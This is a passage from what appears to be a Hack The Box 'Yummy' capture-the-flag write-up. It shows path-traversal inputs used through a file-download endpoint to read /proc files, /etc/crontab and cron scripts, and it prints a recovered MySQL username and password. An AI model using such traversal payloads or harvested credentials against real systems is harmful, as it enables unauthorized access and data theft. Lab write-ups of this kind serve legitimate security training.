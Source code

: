 We try to advance our enumeration by checking files such as `/proc/self/environ` or `proc/x/cmdline`. But they both return a `500 Internal Server Error`.

![proc environ test](/images/HTB-Yummy/proc_environ.png)

![proc cmdline test](/images/HTB-Yummy/proc_cmdline.png)

We move on and check the `/etc/crontab` file.

![/etc/crontab file](/images/HTB-Yummy/etc_crontab_LFI.png)

#### Cron jobs found

We find three different custom cron jobs on the target.

![custom cron jobs](/images/HTB-Yummy/etc_crontab.png)

```
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

Let's check the content of those scripts.

**app_backup.sh**
```
/export/../../../../data/scripts/app_backup.sh
```

![app_backup cron job](/images/HTB-Yummy/app_backup.sh.png)

```bash
#!/bin/bash

cd /var/www
/usr/bin/rm backupapp.zip
/usr/bin/zip -r backupapp.zip /opt/app
```

This script removes any existing `backupapp.zip` file in `/var/www` and then creates a new backup of the `/opt/app` directory in the same location.

**table_cleaneup.sh**
```
/export/../../../../data/scripts/table_cleanup.sh
```

![table cleanup cron job](/images/HTB-Yummy/table_cleanup.png)

> We recover some mysql credentials `chef:3wDo7gSRZIwIHRxZ!`.

```bash
#!/bin/sh

/usr/bin/mysql -h localhost -u chef yummy_db -p'3wDo7gSRZIwIHRxZ!' < /data/scripts/sqlappointments.sql
```
